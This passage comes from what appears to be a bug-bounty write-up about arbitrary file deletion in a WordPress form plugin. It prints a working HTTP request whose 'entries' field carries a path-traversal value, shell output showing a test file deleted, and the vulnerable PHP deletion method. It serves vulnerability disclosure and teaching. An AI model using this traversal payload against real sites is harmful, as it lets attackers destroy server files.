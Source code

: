 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822191602.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822191619.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822191742.png)

After clicking the button, it'll send AJAX action `bitforms_create_new_form` to create a new form. If the form created successfully, it returns the form ID in object `data` attribute `id`.

Now that we have a valid form, let's try to delete a test file:

```shell
root@9e2f4f189063:/var/www/html# echo -n 'test' > test.txt
root@9e2f4f189063:/var/www/html# chown www-data:www-data test.txt
root@9e2f4f189063:/var/www/html# ls -lah test.txt
-rw-r--r-- 1 www-data www-data 4 Aug 22 11:09 test.txt
```

```http
POST /wp-admin/admin-ajax.php?action=bitforms_bulk_delete_form_entries&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 30
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"formID":"1","entries":["../../../../../../../../../../../../../var/www/html/test.txt"]}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822192425.png)

```shell
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
ls: cannot access 'test.txt': No such file or directory
```

Nice! It worked! Now let's move onto the next method!

#### Arbitrary File Deletion via Method `deleteBlukForm`

```php
  public function deleteBlukForm($Request, $post)
  {
    if (isset($Request['formID'])) {
      $formID = wp_unslash($Request['formID']);
    } else {
      $formID = wp_unslash($post->formID);
    }
    if (is_null($formID) || !is_array($formID)) {
      return new WP_Error('empty_form', __('Form id is empty.', 'bit-form'));
    }
    $cssPath = BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR;
    foreach ($formID as $id) {
      unlink($cssPath . 'bitform-' . $id . '.css');
      if (file_exists($cssPath . 'bitform-layout-' . $id . '.css')) {
        unlink($cssPath . 'bitform-layout-' . $id . '.css');
      }
      if (file_exists($cssPath . 'bitform-' . $id . '-formid' . '.css')) {
        unlink($cssPath . 'bitform-' . $id . '-formid' . '.css');
      }
    }
    [...]
```